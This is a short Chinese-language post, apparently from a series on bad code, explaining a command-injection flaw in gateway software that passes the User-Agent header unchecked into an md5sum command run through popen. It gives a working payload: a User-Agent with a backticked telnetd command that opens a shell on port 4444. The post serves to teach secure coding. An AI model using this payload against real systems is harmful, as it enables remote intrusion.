

## shitcode NO.1 -- User-Agent RCE



这段 shitcode 是我从某个网关上弄下来的，web 服务在收到请求时把请求的 UA 设置成环境变量 HTTP_USER_AGENT

然后后端获取这个环境变量的值，然后把 客户端的 ip，登录的用户名，UA 拼接，通过系统命令 md5sum 去计算 md5 值

这里直接使用 sprintf 去拼接，拼接后的字符串没有任何检查直接丢给 popen

按照正常编程的思路来说，没有什么问题，但其实，可以通过修改 UA 来达到 RCE，因为 **UA 是用户可控的**

我正常的 UA 是

```
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
```

我只需要使用一个浏览器插件把我的 UA 改成

```
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36 `telnetd -l /bin/sh -p 4444`
```

然后再去访问能触发这个逻辑的 api，直接就能在目标机器的 4444 端口开一个 shell